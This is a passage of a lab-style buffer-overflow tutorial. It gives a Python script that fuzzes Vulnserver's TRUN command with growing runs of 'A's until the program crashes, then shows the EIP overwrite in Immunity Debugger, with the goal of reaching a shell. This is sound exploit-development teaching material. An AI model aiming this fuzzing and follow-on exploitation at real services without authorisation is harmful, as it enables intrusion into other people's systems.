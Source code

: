 ```
#!/usr/bin/python
 
import sys, socket
from time import sleep
 
buffer = "A" * 100
 
while True:
    try:
        payload = "TRUN /.:/" + buffer
 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('IP',9999))
        print ("[+] Sending the payload...\n" + str(len(buffer)))
        s.send((payload.encode()))
        s.close()
        sleep(1)
        buffer = buffer + "A"*100
    except:
        print ("The fuzzing crashed at %s bytes" % str(len(buffer)))
        sys.exit()
   ```
The code does the following:

1. Sets the variable “buffer” equal to 100 A’s.

2. Performs a while loop, sending each increasing iteration of A’s to Vulnserver and stopping when Vulnserver crashes.

Now let load up Vulnserver and Immunity Debugger as administrator (very important). In Immunity Debugger, click on File > Attach and select vulnserver.exe. Finally, let’s execute our script and see what happen to it boom.

![Image](https://imgur.com/xUwBdUG.png)

Now let check our vulnserver also.

![Image](https://imgur.com/VN8UUwl.png)

Crashed and what is my goals?? my goals is to find a way to control the EIP so i can point our malicious code to it so we can get a shell/root.

![Image](https://imgur.com/XiytejS.png)

This means that we have a buffer overflow vulnerability on our hands and we have proven that we can overwrite the EIP. At this point, we know that the EIP is located somewhere between 1 and 2700 bytes, but we are not sure where it’s located exactly. What we need to do next is figure out exactly where the EIP is located (in bytes) and attempt to control it.

Between the issue i face on Vulnserver is that at times Vulnserver will not crash, but Immunity will pause, which indicates a crash.  In this instance, you may 1) have to hit “Ctrl + C” to stop the fuzzing script and 2) not have all registers overwritten by “A”‘s.  This is okay as long as your program crashed and you have a general idea as to how many bytes were sent.
